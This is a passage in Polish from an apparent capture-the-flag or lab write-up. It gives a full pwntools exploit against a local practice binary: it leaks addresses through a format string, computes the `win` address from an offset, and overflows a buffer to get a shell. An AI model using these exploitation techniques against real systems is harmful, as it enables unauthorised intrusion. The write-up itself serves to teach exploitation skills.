 Zatem aby uzyskać adres `win` należy odjąć offset od zleakowanej instrukcji. Finalnie exploit wygląda następująco.

```python=
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2.o')

p.sendline("%p" * 7)

data = p.readline()

data = data.split(b"0x")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

some_addr = int(data[3],16)

offset = 0x37

win_addres = some_addr - offset

log.success("WIN AT: 0x%08x" % win_addres)

send = b"A" * 28 + p32(win_addres)

p.sendline(send)

p.interactive()
```




W wyniku exploita uzyskujemy shella.
